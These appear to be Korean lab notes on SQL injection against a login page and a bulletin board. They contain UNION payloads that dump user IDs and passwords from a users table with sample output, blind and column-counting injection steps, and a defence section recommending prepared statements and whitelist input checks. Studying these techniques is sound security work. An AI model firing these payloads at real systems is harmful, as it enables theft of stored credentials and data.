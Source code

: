 ```sql
'or'1'='1' union select null,group_concat(USERID),null,null from USERSTBL--
'or'1'='1' union select null,group_concat(USERPW),null,null from USERSTBL--
'or'1'='1' union select null,group_concat(USERNAME),null,null from USERSTBL--
```

##### 결과 : Admin,Manager,User,Test,Secure,Ceo,Cto

##### 결과 : Admin1234,Manager1234,User1234,Test1234,Secure1234,Ceo1234,Cto1234

##### 결과 : 관리자,매니저,사용자,테스터,보안,대표이사,기술이사

___

## 게시판 - SQL Injection
### 정상 조회

검색창에 제목, 내용 선택 창이 있다.

제목 또는 내용을 선택 한 뒤 검색어를 입력하고 검색 버튼을 누른다

해당 검색어가 포함 된 데이터가 출력된다

<bt />

### 비정상 조회

#### blind

- 게시물 번호에 no=1 and 1=1 또는 no=1 and 1=0을 넣어 항상 참 또는 항상 거짓이 되도록 쿼리를 조작가장 먼저 가입 된 계정으로 로그인 성공, 보통 관리자 계정

<bt />

#### union

- 2개 이상의 쿼리를 연결하여 DB 내용을 얻어 냄게시물 번호 뒤에 no=0 order by 1 -- 를 넣어 게시물이 나오지 않는 번호가 나온다면 컬럼의 수를 알 수 있다.

- 게시물 번호 뒤에 no=0 union select 1,2,3,4,5,(컬럼수만큼) -- 을 넣어 게시물의 컬럼 위치를 확인 한다

<bt />

### 방어 방법

- preparedStatement 클래스와 하위 메소드 executeQuery(), execute(), executeUpdate()를 사용

- preparedStatement 클래스를 사용할 수 없는 환경이라면, 입력 값을 필터링 한 후 사용필터링 기준은 SQL 구문 제한, 특수문자 제한, 길이제한을 복합적으로 사용.키워드를 공격과 의미 없는 단어로 치환하는 필터 작성에러메시지 노출되지 않도록 페이지 제작

- 특수문자, 불필요한 문자 체크 등의 블랙리스트 방식보다는 영어, 숫자인지 등을 체크하는 화이트리스트 방식을 권장

<bt />

### 시나리오
